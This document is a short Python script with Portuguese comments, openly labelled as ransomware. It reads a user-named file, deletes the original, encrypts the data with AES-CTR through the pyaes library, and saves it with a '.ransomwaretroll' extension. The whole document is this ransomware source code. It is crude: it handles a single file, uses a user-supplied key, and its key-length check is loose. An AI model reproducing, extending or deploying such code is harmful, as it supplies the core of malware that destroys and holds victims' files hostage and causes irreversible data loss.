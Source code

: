 import os
import pyaes

def criptografar_arquivo(file_name, chave):
    try:
        # Abrir o arquivo a ser criptografado
        with open(file_name, "rb") as file:
            file_data = file.read()

        # Remover o arquivo original após a leitura
        os.remove(file_name)
        
        # Criptografia com a chave fornecida
        key = chave.encode()  # Converter para bytes
        aes = pyaes.AESModeOfOperationCTR(key)

        # Criptografar o arquivo
        crypto_data = aes.encrypt(file_data)

        # Salvar o arquivo criptografado
        new_file = file_name + ".ransomwaretroll"
        with open(new_file, 'wb') as new_file_obj:
            new_file_obj.write(crypto_data)

        print(f"Arquivo criptografado com sucesso: {new_file}")

    except FileNotFoundError:
        print(f"Erro: o arquivo {file_name} não foi encontrado.")
    except Exception as e:
        print(f"Ocorreu um erro: {str(e)}")

if __name__ == "__main__":
    # Receber o nome do arquivo e a chave de criptografia do usuário
    file_name = input("Digite o nome do arquivo a ser criptografado: ")
    chave = input("Digite a chave de criptografia (pelo menos 16 caracteres): ")

    # Verifica se a chave tem o tamanho adequado
    if len(chave) < 16:
        print("A chave deve ter pelo menos 16 caracteres!")
    else:
        # Chama a função de criptografia
        criptografar_arquivo(file_name, chave)
